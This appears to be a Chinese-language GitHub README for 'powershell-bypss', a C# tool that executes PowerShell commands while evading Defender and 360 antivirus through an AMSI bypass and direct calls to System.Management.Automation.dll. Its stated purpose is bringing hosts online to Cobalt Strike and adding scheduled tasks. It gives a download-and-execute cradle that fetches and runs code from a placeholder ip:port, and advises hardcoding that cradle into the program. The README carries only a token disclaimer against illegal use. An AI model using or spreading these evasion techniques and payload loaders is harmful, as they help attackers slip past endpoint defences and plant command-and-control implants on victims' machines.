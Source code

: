 # powershell-bypss

powershell命令免杀的小工具，可过Defender、360等，可执行上线cobaltstrike、添加计划任务等。

AMSI绕过+Automation执行powershell命令。

理论上来说遇到禁用powershell的情况也可以通过该工具执行powershell的命令。

**请勿使用于任何非法用途，由此产生的后果自行承担。**

**理论上来说可以免杀执行任意powershell命令，但是调用了如schtask这类被监控的程序还是会被查杀的。**

**如果目标主机上只存在powershell2.0，那么可能有兼容性问题，我正在尝试解决。**

上述测试环境均为实体机。

思路很简单，很久之前就有了，工具调用C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation目录下面的System.Management.Automation.dll执行底层api来绕过杀软对powershell的监控，同时绕过AMSI的检测。由于patch绕过AMSI的方法会被360查杀，因此这里使用了设置System.Management.Automation.AmsiUtils的方法来绕过。

这里用对命令进行了base64编码，当然这就是一个命令的加载器，具体怎么加密命令有各种各样的方法。

由于是C#，因此可以用execute-assembly内存执行的方式来不落地执行，不过cs本身的powerpick就实现了这个功能，这里只是单拿出来做一个小工具。

**师傅们注意避免用powershell命令，上线cobaltstrike只需要base64```IEX ((new-object net.webclient).downloadstring('http://ip:port/a'))```裸命令，如果以powershell开头那么还是会调用powershell被360拦截的。**

**想单纯来上线cs的师傅可以把IEX开头的powershell命令写定在程序里的myPipeLine.Commands.AddScript参数中**

![image](https://user-images.githubusercontent.com/48757788/203709296-768cc97f-29bf-432a-b260-2e654164cd07.png)

![1669271189122](https://user-images.githubusercontent.com/48757788/203709759-c0b5edf1-26d2-4fea-b1be-199aedf31008.jpg)







